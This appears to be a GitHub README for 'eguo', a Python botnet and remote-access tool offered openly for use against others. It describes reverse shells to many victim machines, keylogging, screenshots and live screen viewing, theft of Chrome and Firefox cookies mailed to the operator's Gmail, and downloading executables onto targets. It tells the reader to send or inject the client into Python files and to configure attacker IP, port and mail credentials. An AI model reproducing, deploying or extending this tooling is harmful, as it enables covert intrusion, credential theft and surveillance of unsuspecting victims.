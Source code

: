 # eguo
reverse shell _ botnet _ zombie network (keylogger,IP_info_location,screenSher_RD_screen_shoter_reverse_commandes)


eguo it's a botnet that can handle many connections 


eguo will let you run commandes to the targets machine and it will let you to run one command to all machine and  you can control one target if you want 


it will give you reverse shell and keylogger and ip info with locathion and it can get screen shots of the targets machine and it can download files and it give you screen share to the targets machine  (like rdp but without conrtol just seeing what the target doing ) and it get the targets browser cookies firefox or chrome and it allows connected 

how to install

pip3 install -r requirements.txt

you can inject it in any python file 

how to run

send the eguo.py to the targets 

run  eguo_eare.py in your server

| Command | Description |
| --- | --- |
| `1 or accept` | to accept the connection  |
| `2 or list` | to list all targets |
| `connect id or 3 (then id)` | to connect to spesfic target |
| `4 or zommbe` | to connect to all targets |
| `5 or exit` | to exit |

| Command | Description |
| --- | --- |
| `cookies-chrome yourEmail@gmail.com` | it get the chrome cookies and send it to your email |
| `cookies-firefox yourEmail@gmail.com` | it get the chrome cookies and send it to your email |
| `keylog yourEmail@gmail.com` | it get the Keystroke logs and send it to your email it will not end antel the user type '~' you can edit it in line 37 |
| `screensher` | it will show you what the target do like video converse   |
| `ip-info` | it give you sum info about his ip  |
| `dfile https://www.url.com/me.exe` | it will download the file from the url |
| `screenshot` | it give you screen shot of the target screen   |

 we are using gmail smtp you will need to allow https://myaccount.google.com/lesssecureapps

and you ned to edit  egou.py

add you ip and port in line 13 14
and you need to add gmail account and pass after allowing the lesssecureapps  in line 16 17

:)
